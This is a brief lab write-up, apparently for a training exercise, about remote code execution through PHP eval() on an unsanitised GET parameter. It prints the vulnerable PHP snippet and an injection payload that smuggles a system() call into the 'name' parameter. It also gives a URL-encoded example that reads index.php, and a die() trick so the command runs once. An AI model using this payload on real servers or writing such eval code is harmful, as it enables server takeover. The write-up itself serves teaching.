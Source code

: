The following parameter value allows RCE:  
```name=".system('<command>');//```

The vulnerable code is:
```
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```
You can get retrieve this using the URL ```view-source:http://<ID>.libcurl.so/?name=%22.system(%27cat%20index.php%27);//```.

Here we can see that any system commands will be executed twice; once as part of the assignent and once in eval. You can avoid this by adding ```die();``` before the slashes.

Not sure why anyone would do this; ```echo "Hello ".$_GET['name']."!!!";``` is much simpler (although this would be vulnerable to XSS)...
